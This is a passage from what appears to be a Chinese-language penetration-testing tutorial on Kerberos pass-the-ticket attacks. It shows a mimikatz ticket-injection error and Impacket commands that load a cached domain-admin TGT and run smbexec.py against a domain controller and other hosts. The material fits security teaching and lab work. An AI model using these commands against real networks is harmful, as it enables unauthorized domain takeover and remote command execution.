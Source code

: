 [![](assets/1701606646-2dfa45d093234bd7e0cf200294bfea59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112013829-2086d9fa-80b9-1.png)

注意：

*   通过票据认证时，目标主机需要为主机名-Kerberos 认证不支持 IP
    
*   在 Win Server 2003、Win XP 下使用 mimikatz 进行 `kerberos::ptc xx.cache` 内存导入票据时，会出现以下错误
    

```bash
* Injecting ticket : ERROR kuhl_m_kerberos_ptt_data ; LsaCallAuthenticationPackage KerbSubmitTicket Message : c000000d
```

#### Impacket 缓存域管 TGT 票据

```bash
# 指定 TGT 票据
➜  examples git:(master) ✗ export KRB5CCNAME=TGT_lihua@qftm.com.ccache

# 攻击域控
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@dc.qftm.com -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug

# 攻击其它 Target
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@targetHostname -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug
```
